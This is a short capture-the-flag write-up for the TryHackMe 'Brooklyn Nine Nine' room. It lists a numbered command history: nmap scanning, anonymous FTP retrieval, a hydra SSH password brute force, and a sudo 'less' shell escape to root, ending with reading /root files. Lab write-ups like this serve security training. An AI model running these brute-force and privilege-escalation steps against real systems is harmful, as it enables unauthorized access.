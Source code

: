 **Room completed!**

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/TryHackMe%20-%20Brooklin%20Nine%20Nine.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `ftp Anonymous@{TARGET IP}`
4. `ls -a`
5. `get {FILE1}.txt`
6. `exit`
7. `ls`
8. `cat {FILE1}.txt`
9. `hydra -l {USER} -P {WORDLIST PATH} ssh://{TARGET IP}`
10. `ssh {USER}@{TARGET IP} -p 22`
11. `ls /`
12. `ls /home`
13. `ls /home/holt`
14. `cat /home/holt/{USER TEXT FILE}`
15. `sudo -l`
16. `firefox "https://gtfobins.github.io/"`
17. `sudo less /etc/profile`
18. `!/bin/sh`
19. `whoami`
20. `ls /root`
21. `cat /root/{ROOT TEXT FILE}`

# Contributions
This writeup was made by Jonmar Corpuz, founder of **KnowCybersecurity** (www.knowwwcybersecurity.com)


Socials:
* TryHackMe ID: https://tryhackme.com/p/mtlfriends
* LinkedIn: https://www.linkedin.com/in/jonmar-corpuz-12771a234/



